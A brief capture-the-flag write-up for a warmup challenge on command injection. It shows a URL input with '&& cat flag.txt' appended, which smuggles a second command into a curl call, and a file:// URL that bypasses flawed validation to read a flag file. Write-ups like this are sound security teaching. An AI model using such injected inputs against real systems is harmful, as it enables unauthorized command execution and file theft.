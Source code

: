 # Guided Command Injection

Author: reyes

> The guide and source is located at `/guide`. Have fun!

**Difficulty: Warmup**

## Solution

Intended solution: `http://example.com/ && cat flag.txt`
completes the curl command with a dummy url and cats the flag.

Due to intentional flawed url validation which was meant to prevent usage of file url scheme: `file:///app/flag.txt && https://`
